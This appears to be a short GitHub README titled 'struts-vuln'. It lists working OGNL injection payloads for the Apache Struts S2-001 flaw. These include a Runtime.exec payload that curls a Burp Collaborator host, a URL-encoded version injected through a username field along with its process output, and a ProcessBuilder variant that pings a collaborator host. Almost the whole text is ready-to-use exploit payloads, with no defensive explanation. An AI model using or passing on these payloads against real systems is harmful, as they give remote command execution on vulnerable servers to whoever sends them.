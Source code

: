 # struts-vuln

### s2-001:
- Minimal payload:
```
%{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```
- url encoded:
``` 
username=%25{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```

- Output: `java.lang.UNIXProcess@58f17c3c`

- Alternative payload:

```
%{(new java.lang.ProcessBuilder(new java.lang.String []{"ping","c0d0lx7fiehdrrfzlpgf70q3nutmhb.burpcollaborator.net"})).start()}
```
